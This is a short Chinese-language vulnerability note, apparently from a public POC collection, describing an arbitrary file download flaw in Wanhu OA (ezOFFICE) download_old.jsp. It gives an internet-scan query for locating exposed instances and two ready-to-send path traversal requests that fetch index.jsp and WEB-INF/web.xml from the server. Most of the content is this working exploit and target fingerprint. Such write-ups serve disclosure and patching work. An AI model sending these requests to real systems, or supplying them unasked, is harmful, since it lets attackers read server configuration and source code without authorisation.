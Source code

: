 # 万户OA download_old.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_old.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132657470](images/202205201326571.png)

验证POC

```
/defaultroot/download_old.jsp?path=..&name=x&FileName=index.jsp
/defaultroot/download_old.jsp?path=..&name=x&FileName=WEB-INF/web.xml
```

![image-20220520132715066](images/202205201327151.png)